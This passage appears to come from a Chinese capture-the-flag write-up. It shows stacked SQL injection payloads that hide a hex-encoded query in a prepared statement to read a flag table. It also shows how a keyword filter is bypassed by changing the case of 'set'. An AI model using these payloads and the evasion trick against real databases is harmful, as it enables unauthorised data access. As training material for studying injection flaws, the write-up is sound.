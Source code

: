 将编码后的sql语句传入a，定义一个名为execsql的预处理语句，执行名为execsql的预处理语句

```
1';set @a=0x73656c65637420666c61672066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```

但是set被过滤了

![image-20240409212823485](../图片/image-20240409212823485.png)

大写一下S成功绕过过滤

```
1';Set @a=0x73656c65637420666c61672066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```

编码以下sql语句也可以拿到flag

```
select * from `1919810931114514`
```

```
1';Set @a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```

![image-20240409213548289](../图片/image-20240409213548289.png)

### 带外注入
